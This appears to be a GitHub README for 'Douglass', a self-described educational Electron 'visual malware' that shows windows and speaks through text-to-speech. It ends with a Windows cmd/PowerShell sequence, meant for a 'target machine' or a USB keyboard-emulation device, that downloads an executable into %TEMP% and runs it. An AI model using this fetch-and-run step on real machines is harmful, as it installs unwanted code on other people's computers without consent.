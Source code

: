 # Douglass
Simple visual malware developed for education purposes.

This program is written in Typescript and is made to run with [Electron](https://www.electronjs.org/). Some libraries are required, [see](#libs) the list of libraries used in this project.

![image info](demo.png)

## How to use
### Disclaimer
- This virus is for academic purposes, the use of this software is your responsibility.
- As it's a virus, it may cause damage to your computer.

### Use with Node.js
1) Run `npm install`
2) Run `npm run start`

### Use a compiled version (Recommended)
1) Garb a compiled version of the program.
2) Run `douglass.exe`

## Compile using Electron-Builder
To compile from source, you will need to follow the instructions listed below.

1) Run `npm install`
2) [Transpile](https://code.visualstudio.com/docs/typescript/typescript-compiling) all `.ts` files into `.js`.
3) Install [Electron-Builder](https://www.electron.build/).
4) Run `electron-builder --win portable`.
5) Change `--win` with the os you are using.

Note that the program is already compiled in the Releases section.

## Libs
Here is the list of used libraries, you can download all of them using `npm install`.
- `Electron` - Used to display windows.
- `Say` - Used to tts.

## Install & Run from command line
This can be usefull for exemple if you want to use a USB stick which emulate a keyboard when you plug it into a machine.

### Window
Copy and paste the commands in a cmd on a target machine.

```bash
cd %TEMP%
powershell wget "https://github.com/AntoineBRTL/Douglass/releases/download/1.0/douglass.exe" -outfile "d.exe"
d.exe
exit
```
